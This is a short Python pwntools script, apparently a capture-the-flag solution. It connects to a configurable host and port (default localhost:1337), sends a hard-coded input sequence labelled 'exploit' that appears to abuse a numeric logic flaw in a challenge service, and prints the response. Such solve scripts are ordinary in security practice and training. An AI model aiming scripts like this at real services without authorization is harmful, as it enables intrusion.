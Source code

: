 ```python

from pwn import *
import argparse

parser = argparse.ArgumentParser()

parser.add_argument('--host', help='Host to connect to', default='localhost')
parser.add_argument('--port', help='Port to connect to', default=1337, type=int)

args = parser.parse_args()

r = remote(args.host, args.port)

exploit = """y
10000
0
y
1000
0
y
500
500
n"""

r.sendline(exploit.encode())

print(r.recvall().decode())
```
